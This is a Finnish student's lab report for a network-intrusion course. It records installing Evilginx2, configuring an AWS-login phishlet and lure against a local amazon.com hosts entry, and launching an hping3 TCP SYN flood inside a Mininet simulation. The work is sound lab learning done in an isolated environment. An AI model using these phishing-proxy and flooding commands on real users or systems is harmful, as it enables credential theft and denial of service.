



# h5 Laboratorio- ja simulaatioympäristöt hyökkäyksissä

#### Oma host kokoonpanoni:

| Komponentti | Kuvaus | Lisätiedot |
| :---        |    :----:   |          ---: |
| Emolevy | MSI B550-A PRO | ATX, AM4 |
| Prosessori   | AMD Ryzen 9 5900X | 12-Core 3.70 GHz |
| RAM   | G.Skill  Ripjaws V |  32GB (4x8GB) DDR4 3200MHz  |
| Näytönohjain   | Sapphire PULSE AMD Radeon RX 7900 GRE        | 16GB     |
| SSD   | Kingston 1TB        | A2000 NVMe PCIe SSD M.2      |
| SSD   | Crucial 512GB        | MX100 SSD     |
| SSD   | Crucial 256GB        | MX100 SSD     |
| Virtalähde   | Asus 750W TUF       | ATX 80 Plus      |
| Kotelo   | Phanteks Enthoo Pro       |  Full Tower      |

- Käyttöjärjestelmä: Windows 11 Pro 25H2
- VMware® Workstation Pro 25H2 25.0.0.24995812
- Kali GNU/Linux Rolling 2025.3
- mininet
- MobaXterm Personal Edition v25.3 Build 5384

### a) Tutustu seuraavaan työkaluun [https://github.com/kgretzky/evilginx2](https://github.com/kgretzky/evilginx2). Vastaa seuraaviin kysymyksiin

### - Asensitko työkalun, jos asensit niin kirjoita miten sen teit.

[https://nateahess.medium.com/evilginx-on-digitalocean-6f2066e8a468](https://nateahess.medium.com/evilginx-on-digitalocean-6f2066e8a468) tällä ohjeella niinkin yksinkertainen asennus ja käynnistys Kali:lla, kuin:

```bash
sudo apt update
sudo apt install evilginx2
evilginx2
```



### - Mitä teit työkalun kanssa?

Huomasin kokeilemalla, että **`help`** komennolla saa asetusvalikon esille ja pääsee suoraan muuttamaan asetuksia. Otin varmuuden vuoksi virtuaalikoneen irti verkosta, että mitään luvatonta ei vahingossa tapahdu.

Katsoin täältä [https://marcinmitruk.link/posts/evilginx-phishing-commands-tutorial/](https://marcinmitruk.link/posts/evilginx-phishing-commands-tutorial/) ohjeita miten tuota ohjelmaa voisi käyttää. Ilmeisesti pitäisi asettaa domain. Ohjelma ei hyväksy **`localhost:xxxx`** domainiksi, eikä **`127.0.0.1`** loopback ip osoitetta. En laita julkista domainia tai ip:tä ohjelmaan.

[https://www.youtube.com/watch?v=z5gLXmXIyH8](https://www.youtube.com/watch?v=z5gLXmXIyH8) tämän videon ohjeilla lähdin toteuttamaan paikallista kokeilua:

```bash
cd /usr/share/evilginx2/phishlets
sudo nano /etc/hosts
#lisäsin tämän rivin: "127.0.0.1  example.com"
```

Ohjeen mukaan kävin hakemassa phishletin täältä [https://github.com/webdevvx/evilginx-phishlets/blob/main/aws.yaml](https://github.com/webdevvx/evilginx-phishlets/blob/main/aws.yaml), kopioin sisällön tekstitiedostoon:

```bash
pwd
/usr/share/evilginx2/phishlets
sudo nano aws.yaml #tänne sisältö
sudo nano /etc/hosts #tänne lisään vielä "signin.aws" ja muutan example.com:n amazon.com:ksi
sudo evilginx2 --developer
config domain amazon.com
config ipv4 127.0.0.1
phishlets hostname aws amazon.com
phishlets enable aws
lures create aws
#[08:22:36] [inf] created lure with ID: 0
lures get-url 0 #koska annettu ID oli 0
#https://signin.aws.amazon.com/LWAfYmia
```

Navigoin Firefoxilla tuohon "https://signin.aws.amazon.com/LWAfYmia" osoitteeseen.

### - Onnistuitko huijaamaan liikennettä

En onnistunut huijaamaan liikennettä näillä ohjeilla. Navigoidessani tuohon edellisen kohdan osoitteeseen, jätin evilginxin päälle. Hetken päästä ruudulle ilmestyi pitkä pätkä seuraavaa:



Eli johonkin asti pääsin tämän kanssa, mutta en aivan maaliin.

### b) Sinulla on käytössäsi mininet-ympäristö. Luo ympäristö, jossa voit tehdä TCP SYN-Flood hyökkäyksen.

### - Kirjoita miten loit mininet ympäristön ja miten toteutit hyökkäyksen.

Tätä varten latasin Windowsille [**MobaXterm**](https://mobaxterm.mobatek.net/):n, jotta pääsen käsiksi mininet ympäristöön. Ohjeita katselin [https://mininet.org/](https://mininet.org/):sta

Ensin testailin mininettiä koulun ohjeilla. Eli: 

- VMwaresta mininet kone auki.
- komento **ryu-manager ryu.app.simple_switch_13** käynnistää verkko-ohjaimen. Ennen sitä piti kuitenkin ajaa **`sudo-s xauth add mininet-vm/unix:10  MIT-MAGIC-COOKIE-1  22ce67f9c6514c99d2903e2b9d97e496`**, koska **ip a** ei antanut ip osoitetta.
- MobaXtermiin uusi SSH sessio. Yhteys 192.168.244.130, joka on tällä kertaa mininetin antama IPv4 osoite. MobaXtermissä:

```bash
sudo mn --topo single,3 --mac --switch ovsk --controller remote
*** Creating network
*** Adding controller
...
mininet> pingall
*** Ping: testing ping reachability
h1 -> h2 h3
h2 -> h1 h3
h3 -> h1 h2
*** Results: 0% dropped (6/6 received)
```

Suoritin tuon ARP hyökkäyksen suoraan ohjeen mukaan kokeiluksi.

### Itse tehtävään

Loin kaksi nodea tätä varten:

```bash
sudo mn --topo single,2 --mac --switch ovsk --controller remote
```

h1:lle annan seuraavan komennon, jolla seuraan portin 80 liikennettä: **`tcpdump -i h1-eth0 -n tcp port 80 -c 1000`** [https://danielmiessler.com/blog/tcpdump](https://danielmiessler.com/blog/tcpdump), [https://nanxiao.github.io/tcpdump-little-book/](https://nanxiao.github.io/tcpdump-little-book/):

- **-i h1-eth0** = Kaapataan kaikki liikenne h1:n eth0 interfacesta.
- **-c 1000** = Rajoitetaan kaappaus tuhanteen pakettiin.
- **-n** = Ei käännä osoitetta nimeksi, tässä tosin hyvin hyödytön.

Sivulta: [https://www.sciencedirect.com/science/article/pii/S2352340925000460](https://www.sciencedirect.com/science/article/pii/S2352340925000460) löytyi kuinka **`hping3 -S -p 5566 172.17.237.22`** komennolla voi tehdä SYN flood hyökkäystä.

```bash
hping3 -h #Kertoo että: -S = SYN flag, ja -p = --destport
```

h1:llä annoin komennon **`ip a`**, jolla sain selville, että h1:n ip osoite on **10.0.0.1**

Eli minun tapauksessa h2:lta annan tuon komennon porttiin 80:
```bash
hping3 -S -p 80 10.0.0.1
```

Kaappaan myös Wiresharkilla liikennettä, kuvassa näkyy TCP SYN tulva, joskin hidas sellainen ja kaikki samasta osoitteesta:



Tässä oli hyvin yksinkertainen TCP SYN-Flood hyökkäys. Lisäksi olisin voinut helposti luoda useamman noden tekemään samaa hyökkäystä, mutta jääköön tähän tällä kertaa.

### Lähteet

[https://github.com/kgretzky/evilginx2?tab=readme-ov-file](https://github.com/kgretzky/evilginx2?tab=readme-ov-file)

[https://marcinmitruk.link/posts/evilginx-phishing-commands-tutorial/](https://marcinmitruk.link/posts/evilginx-phishing-commands-tutorial/)

[https://www.youtube.com/watch?v=z5gLXmXIyH8](https://www.youtube.com/watch?v=z5gLXmXIyH8)

[https://github.com/webdevvx/evilginx-phishlets/blob/main/aws.yaml](https://github.com/webdevvx/evilginx-phishlets/blob/main/aws.yaml)

[https://mobaxterm.mobatek.net/](https://mobaxterm.mobatek.net/)

[https://mininet.org/](https://mininet.org/)

[https://danielmiessler.com/blog/tcpdump](https://danielmiessler.com/blog/tcpdump)

[https://nanxiao.github.io/tcpdump-little-book/](https://nanxiao.github.io/tcpdump-little-book/)

---

Tätä dokumenttia saa kopioida ja muokata GNU General Public License (versio 2 tai uudempi) mukaisesti. [http://www.gnu.org/licenses/gpl.html](http://www.gnu.org/licenses/gpl.html)

Pohjana Tero Karvinen & Lari-Iso Anttila 2025: [Verkkoon tunkeutuminen ja tiedustelu](https://terokarvinen.com/verkkoon-tunkeutuminen-ja-tiedustelu/)

Kirjoittanut: <em>Santeri Vauramo</em> 2025


